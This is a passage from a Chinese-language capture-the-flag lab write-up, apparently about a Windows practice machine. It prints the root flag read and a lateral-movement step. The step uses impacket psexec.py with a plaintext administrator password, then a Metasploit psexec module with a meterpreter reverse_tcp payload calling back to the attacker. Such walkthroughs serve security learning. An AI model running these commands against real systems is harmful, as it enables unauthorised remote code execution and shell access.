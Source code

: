 ```cmd

C:\Users>type C:\users\Administrator\Desktop\root.txt
```

### psexec.py

-- -- --

[Beginner’s Guide to Impacket Tool kit](https://www.hackingarticles.in/beginners-guide-to-impacket-tool-kit-part-1/)

这是 psexec.exe 的 python 实现，可以通过用户名密码实现远程代码执行，获取一个 shell

 `python '/root/impacket/examples/psexec.py' Administrator:XtH4nkS4Pl4y1nGX@10.10.10.178`

我们使用这条命令即可获得一个 root 权限的 shell，msf 里也有该攻击模块

```shell
msf > use exploit/windows/smb/psexec
msf exploit(windows/smb/psexec) > set rhost 10.10.10.178
msf exploit(windows/smb/psexec) > set smbuser administrator
msf exploit(windows/smb/psexec) > set smbpass XtH4nkS4Pl4y1nGX
msf exploit(windows/smb/psexec) > set payload windows/meterpreter/reverse_tcp
msf exploit(windows/smb/psexec) > set LHOST your ip
msf exploit(windows/smb/psexec) > set LPORT 4444
msf exploit(windows/smb/psexec) > exploit
```

## 0x04 Thanks!

之前对 windows 的渗透知之甚少，这次也花费了很多时间学到很多东西，欢迎交流~









